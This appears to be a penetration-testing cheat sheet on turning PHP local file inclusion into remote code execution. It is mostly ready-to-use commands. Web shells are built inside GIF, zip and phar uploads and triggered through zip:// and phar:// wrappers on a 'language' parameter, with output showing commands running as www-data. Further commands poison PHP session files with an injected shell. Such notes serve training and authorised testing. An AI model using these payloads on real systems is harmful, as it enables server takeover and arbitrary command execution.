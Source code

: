 #### Image Upload
```bash
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Zip Upload (using  Wrappers  zlib:// bzip2://  zip://)
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Phar Upload

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```bash
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Log Poisoning

#### PHP Session Poisoning

- if php site using language paramter language
```url
http://<SERVER_IP>:<PORT>/index.php?language=en.php
```
- session is stored in  `/var/lib/php/sessions/sess_SessionValue`
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd'

=> selected_language|s:6:"en.php";preference|s:7:"English";
```
- check if you can control any value in the session 
- assume selected_language is contolable
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=<?php system($_GET["cmd"]);?>'
```
